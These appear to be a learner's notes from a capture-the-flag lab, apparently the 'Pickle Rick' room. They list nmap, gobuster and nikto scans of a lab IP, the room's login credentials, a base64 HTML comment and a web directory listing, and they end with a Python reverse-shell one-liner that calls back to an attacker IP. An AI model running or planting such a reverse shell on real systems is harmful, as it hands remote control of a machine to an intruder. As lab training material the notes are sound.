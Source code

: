 nmap -sC -sV 10.10.191.48

gobuster dir -u http://10.10.191.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster vhost -u http://10.10.191.48 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

Username: R1ckRul3s
Password: Wubbalubbadubdub >> http://10.10.191.48/robots.txt

nikto -h 10.10.191.48

http://10.10.191.48/login.php

<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt


Reverese shell on portal
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.186.50",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

